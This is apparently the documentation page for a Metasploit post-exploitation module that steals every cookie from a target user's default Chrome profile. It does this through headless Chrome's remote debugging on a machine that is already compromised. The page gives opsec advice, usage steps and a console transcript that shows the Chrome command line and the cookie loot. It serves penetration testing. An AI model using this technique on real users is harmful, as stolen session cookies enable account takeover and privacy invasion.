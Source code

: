 ## Gather Chrome Cookies

Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/) to read all cookies from the Default Chrome profile of the user.

## Opsec

This writes to disk temporarily. You may want to consider the tradeoff between getting the user's Chrome cookies and the noisiness of writing to disk.

The module writes a random 10-15 character file containing HTML to a directory you can specify via `WRITABLE_DIR`.

## Vulnerable Application

This technique works on Chrome 59 or later on all operating systems. This module has been tested on Windows, Linux, and OSX. Windows shell sessions are currently not supported.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/multi/gather/chrome_cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options

  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **WRITABLE_DIR**

  Directory used to write temporary files.

  Two files are written, with random 10-15 character alphanumeric filenames. One file contains an html file for Chrome and the other is where the cookies are saved. Both files are deleted during cleanup.

  **REMOTE_DEBUGGING_PORT**

  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Linux (or OS X)

  Suppose you've got a session on the target machine.

  To extract the target user's Chrome cookies

```
msf > use post/multi/gather/chrome_cookies 
msf post(multi/gather/chrome_cookies) > options

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                1                yes       The session to run this module on.
   WRITABLE_DIR       /tmp             no        Where to write the html used to steal cookies temporarily

msf post(multi/gather/chrome_cookies) > set session <your session id>
session => <your session id>
msf post(multi/gather/chrome_cookies) > run

[*] Activated Chrome's Remote Debugging via google-chrome --headless --disable-web-security --disable-plugins --user-data-dir="/home/<username>/.config/google-chrome/" --remote-debugging-port=9222 /tmp/qj9ADWM6Xqh
[+] 1473 Chrome Cookies stored in /home/<local_username>/.msf4/loot/20181209094655_default_127.0.0.1_chrome.gather.co_585357.txt
[*] Post module execution completed
```

## Future features

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.
